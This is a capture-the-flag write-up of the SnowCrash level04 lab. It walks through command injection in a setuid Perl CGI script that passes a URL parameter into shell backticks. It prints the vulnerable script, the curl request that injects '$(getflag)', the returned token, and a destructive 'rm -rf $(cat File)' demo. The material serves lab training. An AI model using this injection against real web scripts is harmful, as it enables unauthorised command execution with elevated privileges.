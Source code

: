 ## Level 04


## Clues

We now have a perl script named level04.pl


This script is also executed by the user flag04 :
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$
```

Lets see what's inside :

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The script prints out "Content-type: text/html\n\n" and then execute the subroutine x with the x parameter.

```
level04@SnowCrash:~$ perl level04.pl x=loremipsum
Content-type: text/html

loremipsum
level04@SnowCrash:~$
```

We can see in the script the line **localhost:4747**, this mean we can call this script with an http request, lets try that.

```
level04@SnowCrash:~$ curl localhost:4747/level04.pl?x=loremipsum
loremipsum
level04@SnowCrash:~$
```

It prints out only the value of x when we call it this way, in any case, we will be using this to find the flag.


## Solution

What we have here is a script that is vulnerable to code injection, since this script have the flag04 privilege, we will try to make it execute the getflag command.


We are going to inject code using command substitution

The command substitution is the feature of the shell language that allow you to execute a command and have the output of that command replacing the text of the command.

Example :

```
➜  test touch A B C
➜  test touch File
➜  test echo "A B C" > File
➜  test ls
A  B  C  File
➜  test rm -rf $(cat File) // Command Substitution
➜  test ls
File
➜  test
```

Lets try that in the script using curl.

```
level04@SnowCrash:~$ curl localhost:4747/level04.pl?x=$(getflag)
Check
curl: (6) Couldn't resolve host 'flag.Here'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'your'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host ''
curl: (6) Couldn't resolve host 'Nope'
curl: (6) Couldn't resolve host 'there'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'no'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host 'here'
curl: (6) Couldn't resolve host 'for'
curl: (6) Couldn't resolve host 'you'
curl: (6) Couldn't resolve host 'sorry.'
curl: (6) Couldn't resolve host 'Try'
curl: (6) Couldn't resolve host 'again'
curl: (6) Couldn't resolve host ''
level04@SnowCrash:~$
```
That's not working, but its normal, here we only gave the output of the getflag command to x.

We actually want to give exacly the word $(getflag), lets try again :


```
level04@SnowCrash:~$ curl localhost:4747/level04.pl?x=$\(getflag\)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$
```

By using '\\' , the script received $(getflag) and the shell interpreted as a command substitution, and executed the getflag command as flag03

So far so cool !



## What i learned

Code injection using command substitution

Perl scripting

More curiosity
